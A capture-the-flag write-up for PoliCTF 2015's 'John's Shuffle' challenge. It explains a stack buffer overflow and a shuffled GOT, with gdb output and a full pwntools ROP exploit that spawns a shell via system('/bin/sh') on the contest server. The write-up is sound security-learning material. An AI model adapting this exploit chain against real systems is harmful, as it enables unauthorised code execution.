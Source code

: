 # PoliCTF 2015: John's Shuffle

**Category:** Pwnable
**Points:** 350
**Solves:** 55
**Description:**

> John is completely drunk and unable to protect his poor stack.. Fortunately he can still count on his terrific shuffling skills. Connect to
> shuffle.polictf.it:80
> GPG key: PenOrmunonCerwivpagsyasOwirOjVed
> [http://download.polictf.it/johns-shuffle_ebee3fc8684b5802b681ade5dd06623f.tar.gz.gpg](Download)

## Write-up
Runnning file on johns-shuffle:
>```bash
> $ file johns-shuffle
> johns-shuffle: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=8a7ccb88d6259fdf5b193f17dc4d8183ada66b64, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : ENABLED
>PIE       : disabled
>RELRO     : Partial
>```

Looks like a 32-bit binary with NX and partial RELRO; this gives an idea of how to approach the exploit.

After tracing through my input, I found that it was being read in through an fgets call here:

>```assembly
> .text:08048F57 mov     dword ptr [esp+4], 44h ; n
> .text:08048F5F lea     eax, [esp+2Ch]
> .text:08048F63 mov     [esp], eax      ; s
> .text:08048F66 call    _fget
>```

The fgets function is being called with a size of 68, and after analyzing the size of the actual array in IDA, we can see that the size is 20 bytes. So after 20 bytes of input we achieve a stack based buffer overflow. Since the binary isn't compiled with a Canary we can simply overwrite the return address.

So next we look for ways to make the binary hit a return instruction. It seems like the main loop breaks when the call to exitcompare returns 1 or if seed\_2 is less than 0. The exitcompare function just seems to check if the first 4 bytes is exactly "exit" and returns 1 if they are. Seed\_2 initially is set to seed\_1 in the shuffle function and is decremented by half of seed_1 each loop. Seed\_1 is also initialized to the current time, which gives us 3 loops before the check fails. But really for all intents and purposes seed\_2 is really just a counter.

Looking at the list of imports, we see a lot of interesting functions such as system, read, write, execv, etc. 
_If you are looking at this in gdb, make sure to enable set follow-fork-mode parent since system(0) is called in shuffle._ So why not use read to write "/bin/sh\0" somewhere into the binary and call system! 

However, during runtime it seems that read@plt instead points to somewhere else:
>```assembly
>[----------------------------------registers-----------------------------------]
>EAX: 0x0 
>EBX: 0xb7784000 --> 0x1abda8 
>ECX: 0x4 
>EDX: 0xb763dee0 (<_IO_puts>:	push   ebp)
>ESI: 0x0 
>EDI: 0x0 
>EBP: 0x41414141 ('AAAA')
>ESP: 0xbff8f510 --> 0xa ('\n')
>EIP: 0x8048690 (<read@plt>:	jmp    DWORD PTR ds:0x804b00c)
>EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
>[-------------------------------------code-------------------------------------]
>   0x8048686:	jmp    DWORD PTR ds:0x804b008
>   0x804868c:	add    BYTE PTR [eax],al
>   0x804868e:	add    BYTE PTR [eax],al
>=> 0x8048690 <read@plt>:	jmp    DWORD PTR ds:0x804b00c
> | 0x8048696 <read@plt+6>:	push   0x0
> | 0x804869b <read@plt+11>:	jmp    0x8048680
> | 0x80486a0 <isnan@plt>:	jmp    DWORD PTR ds:0x804b010
> | 0x80486a6 <isnan@plt+6>:	push   0x8
> |->   0xb763dee0 <_IO_puts>:	push   ebp
>       0xb763dee1 <_IO_puts+1>:	push   edi
>       0xb763dee2 <_IO_puts+2>:	push   esi
>       0xb763dee3 <_IO_puts+3>:	push   ebx
>                                                                  JUMP is taken
>[------------------------------------stack-------------------------------------]
>0000| 0xbff8f510 --> 0xa ('\n')
>0004| 0xbff8f514 --> 0xbff8f5a4 --> 0xbff912e3 ("/home/ubuntu/johns-shuffle")
>0008| 0xbff8f518 --> 0xbff8f5ac --> 0xbff91312 ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
>0012| 0xbff8f51c --> 0xb77b0cea (<call_init+26>:	add    ebx,0x12316)
>0016| 0xbff8f520 --> 0x1 
>0020| 0xbff8f524 --> 0xbff8f5a4 --> 0xbff912e3 ("/home/ubuntu/johns-shuffle")
>0024| 0xbff8f528 --> 0xbff8f544 --> 0x7049d088 
>0028| 0xbff8f52c --> 0x804b040 --> 0xb75f1990 (<__libc_start_main>:	push   ebp)
>[------------------------------------------------------------------------------]
>Legend: code, data, rodata, value
>0x08048690 in read@plt ()
>gdb-peda$
>```

At first I had found it strange that the binary has no entries in the global offset table section, but it seems to be implementing its own. For those who don't know, the got and plt entries are what allows for binaries to be dynamically linked to external libraries. The shuffle and unshuffle functions then seem to be shifting around the got.plt entries which hold the resolved libc addresses. The shuffle is based on a random seed which is initialized in seed\_1 so each time the binary is run, the libc addresses will be in different areas. However srand is called again with seed\_1 each loop so that the same random number is used for each process.

There are a couple of ways to defeat this, 
1. Leak a libc address and jump to libc instead
2. Predict the pseudorandomness
3. Force the binary into a deterministic state

At first I tried to bruteforce a plt entry until it would be the write function and try to leak a libc address, but it didn't seem work out too well. In the end I realized that you could do #3, I saw the bubble\_sort function and figured that there is only one way that you can sort the got.plt entries and if you could do that, then you would know which plt entries matched up to where and it would be the same no matter how you shuffled it. I just analyzed which entries matched up to where and called those plt entries instead. Once the got.plt was sorted, the shuffle and unshuffle would just undo each other and at the end of the return the entries would stay sorted. Another problem I ended up having was that the I ran out of buffer room but I remedied this by chaning main so I could write more. 

So putting it all together:

>```python
>from pwn import *
>from struct import unpack
>
>context.log_level ="info"
>
>#r = remote('localhost',8888)
>r = remote('shuffle.polictf.it',80)
>padding = "A"*32
>padding2 = "A"*36
>padding3 = "A"*24
>
>bubsort = p32(0x0804891D)
>gotplt = p32(0x0804b00c)
>
>popret = p32(0x8048675)
>pop2ret = p32(0x804901e)
>pop3ret = p32(0x804901d)
>
>system_plt = p32(0x80486c0)
>read_plt = p32(0x8048750)
>
>main = p32(0x08048EBF)
>buff = p32(0x0804B070)
>
>r.send(padding+bubsort+pop2ret+gotplt+p32(25)+main+'\n') #sort the got.plt
>r.send('exit\n')
>
>r.send(padding2+read_plt+pop3ret+p32(0)+buff+p32(8)+main+'\n') #read /bin/sh into somewhere
>r.send('exit\n')
>
>pause(3) #wait for the read to go through
>r.send('/bin/sh\x00')
>
>r.send(padding3+system_plt+popret+buff+system_plt+popret+buff+'\n') #at this point the stack is pretty messed up so this line is pretty yolo
>r.send('exit\n')
>
>r.clean()
>r.interactive()
>```

_flag{rand0mizing_things_with_l0ve}_
## Other write-ups and resources

* none yet
